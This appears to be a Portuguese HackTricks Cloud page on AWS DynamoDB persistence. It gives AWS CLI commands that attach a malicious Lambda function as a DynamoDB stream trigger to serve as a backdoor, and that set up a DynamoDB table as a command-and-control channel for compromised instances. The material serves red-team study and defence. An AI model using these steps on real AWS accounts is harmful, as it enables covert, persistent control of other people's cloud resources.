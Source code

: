 # AWS - Persistência no DynamoDB

{% hint style="success" %}
Aprenda e pratique Hacking na AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking no GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

### DynamoDB

Para mais informações, acesse:

{% content-ref url="../aws-services/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-dynamodb-enum.md)
{% endcontent-ref %}

### Gatilhos do DynamoDB com Backdoor Lambda

Usando gatilhos do DynamoDB, um atacante pode criar uma **backdoor furtiva** associando uma função Lambda maliciosa a uma tabela. A função Lambda pode ser acionada quando um item é adicionado, modificado ou excluído, permitindo que o atacante execute código arbitrário dentro da conta AWS.

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
{% endcode %}

Para manter a persistência, o atacante pode criar ou modificar itens na tabela DynamoDB, o que acionará a função Lambda maliciosa. Isso permite que o atacante execute código dentro da conta AWS sem interação direta com a função Lambda.

### DynamoDB como um Canal C2

Um atacante pode usar uma tabela DynamoDB como um **canal de comando e controle (C2)** criando itens contendo comandos e usando instâncias comprometidas ou funções Lambda para buscar e executar esses comandos.
```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```
As instâncias comprometidas ou funções Lambda podem verificar periodicamente a tabela C2 em busca de novos comandos, executá-los e, opcionalmente, relatar os resultados de volta à tabela. Isso permite que o atacante mantenha persistência e controle sobre os recursos comprometidos.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
